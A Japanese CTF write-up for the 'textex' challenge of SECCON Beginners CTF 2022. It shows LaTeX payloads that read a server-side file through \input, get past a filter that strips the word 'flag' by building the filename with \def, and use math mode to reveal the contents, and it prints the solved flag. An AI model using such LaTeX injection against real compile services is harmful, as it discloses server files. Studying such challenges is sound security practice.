```yaml
---
title: "SECCON Beginners CTF 2022"
date: 2022-06-05T00:00:00+09:00
draft: false
---
```


こんにちは、[がーと](https://twitter.com/gaato__)です。今回忙しかったのですが片手間で SECCON Beginners CTF 2022 にチーム Hacklava として参加し、1 問だけ解いたので解法をメモっておきます。

## textex

実は私も Web 上で LaTeX をコンパイルするサービスを運用していて、この脆弱性も経験していたので正直余裕でした。

Dockerfile とディレクトリ構造を見て ./flag を LaTeX の中から読み込めばいいということが分かったのでまず思いついたのが `\input` です。ということでまず思いつくのは

```tex
\documentclass{article}
\begin{document}

\input{flag}

\end{document}
```

ですが `app.py` を読んでみると `flag` を空文字列に置換しているのでこれは ERROR です。そこで `\def` を使って

```tex
\documentclass{article}
\def\hoge{g}
\begin{document}

\input{fla\hoge}

\end{document}
```

としてみても ERROR。
`\input` は読み込んだ文字列をそのまま LaTeX のコードとして解釈するのですが、flag に _ （アンダースコア）が含まれているとテキストモードではエラーが出るのでそのエラーかと思いました。
そこで数式モードに入れてやれば _ の後の文字が下付き文字として解釈されるので出るのではと思い、

```tex
\documentclass{article}
\def\hoge{g}
\begin{document}

$$\input{fla\hoge}$$

\end{document}
```

としてみると

![](/blog/img/ctf4b2022/textex.png)

が出てきて LaTeX では {} はブロックとして解釈され消えるのと、 _ の後の文字が下付き文字になることを考慮すると flag は `ctf4b{15_73x_pr0n0unc3d_ch0u?}` ということが分かります。
